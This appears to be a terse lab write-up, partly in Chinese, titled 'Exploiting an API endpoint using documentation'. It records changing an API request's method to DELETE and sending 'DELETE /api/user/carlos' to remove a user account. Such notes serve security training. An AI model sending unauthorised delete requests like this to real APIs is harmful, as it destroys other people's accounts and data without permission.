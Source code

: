 # Exploiting an API endpoint using documentation
发现一个api请求，更改方法为delete，删除carlos
DELETE /api/user/carlos HTTP/2